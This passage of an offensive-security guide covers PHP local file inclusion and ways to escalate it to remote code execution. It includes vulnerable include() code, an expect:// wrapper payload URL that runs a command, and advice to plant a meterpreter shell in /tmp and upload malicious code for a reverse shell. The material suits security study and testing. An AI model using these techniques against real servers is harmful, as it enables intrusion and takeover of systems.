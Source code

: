 Note

Also, if we have unprivileged user shell or an ability to store a file somewhere in the filesystem, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.

#### Filtering in LFI

Sometimes, there might be some filtering applied by default. For example: filename=secret.txt, here it is possible that it will only read files named secret.txt or with extension .txt. So, may be rename your payload accordingly.

For example: the below code only includes the file which are named secret

```php
<?php
  $file = @$_GET['filname'];
  if(strlen($file) > 55)
    exit("File name too long.");
  $fileName = basename($file);
  if(!strpos($file, "secret"))
    exit("No secret is selected.");
  echo "<pre>";
  include($file);
  echo "</pre>";
?>
```

### LFI to Remote Code Execution

Mainly taken from [LFI-Cheat-Sheet](https://highon.coffee/blog/lfi-cheat-sheet/) , [Exploiting PHP File Inclusion – Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/) and [Upgrade from LFI to RCE via PHP Sessions <https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/>`_

There are variety of different tricks to turn your LFI into RCE. Using

#### File upload forms/ functions

Figure out if there are any upload forms or functions, we will upload your malicious code to the victim server, which can be executed.

#### PHP wrapper expect://command

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

```none
http://IP/fileincl/example1.php?page=expect://ls
```

If PHP expect wrapper is disabled, below error is encountered.

```none
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 
Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 
Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 
Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
```
